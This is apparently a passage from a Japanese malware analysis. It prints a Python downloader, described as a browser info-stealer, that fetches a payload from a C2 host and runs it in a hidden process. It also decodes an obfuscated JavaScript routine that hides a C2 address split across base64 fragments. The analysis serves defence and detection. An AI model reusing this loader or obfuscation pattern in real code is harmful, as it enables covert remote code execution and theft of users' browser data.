 - No2: ブラウザから情報窃取するコード
```python
 ap = pd + "/bow"
 def download_browse():
     if os.path.exists(ap):
         try:os.remove(ap)
         except OSError:return True
     try:
         if not os.path.exists(pd):os.makedirs(pd)
     except:pass
     try:
         aa=requests.get(host2+"/brow/"+sType, allow_redirects=True)
         with open(ap, 'wb') as f:f.write(aa.content)
         return True
     except Exception as e:return False
 res=download_browse()
 if res:
     if ot=="Windows":subprocess.Popen([sys.executable, ap], creationflags=subprocess.CREATE_NO_WINDOW | subprocess.CREATE_NEW_PROCESS_GROUP)
     else:subprocess.Popen([sys.executable, ap])
```

#### ダウンロードしたコードを実行するまで

まず、多機能バックドア(No1)は、ダウンロードしたコードがzlibで多段階で圧縮されています。  
そのため、何度か解凍を回すと、悪性コードが取得できます。  
ブラウザから情報窃取するコードは、Zlibは掛けられていませんでした。

最終的なペイロードはどちらも特に難読化もされておらず、若干ですがコメントなども存在してました。  

### C2の検出

この悪性コードの埋め込みで、C2情報を取得する箇所は以下です。  

```javascript
l=()=>{ let t="MTQ3LjEyNCaHR0cDovLw4yMTQuMTI5OjEyNDQ=  "; for(var c="",a="",r="",$="",n=0;n<10;n++)c+=t[n],a+=t[10+n],r+=t[20+n],$+=t[30+n]; return c=c+r+$,e(a)+e(c) }
```
ここにある、`let t`がC2です。このエンコードの仕方は他の埋め込み悪性コードでも多くの場合使われていました。  
ちなみに内容は少し見やすくすると以下です。最初の10文字目から19文字目までだけ別文字列としてbase64デコードして文字列結合する形です。  

```javascript
l=()=>{
    let t="MTQ3LjEyNCaHR0cDovLw4yMTQuMTI5OjEyNDQ=  ";
    for(var p01s="",p10s="",p20s="",p30s="",n=0; n<10; n++){
        p01s+=t[n]    // 00-09
        p10s+=t[10+n] // 10-19
        p20s+=t[20+n] // 20-29
        p30s+=t[30+n] // 30-39
    }
    p01s=p01s+p20s+p30s
    return b64decode(p10s)+b64decode(p01s)
}
```
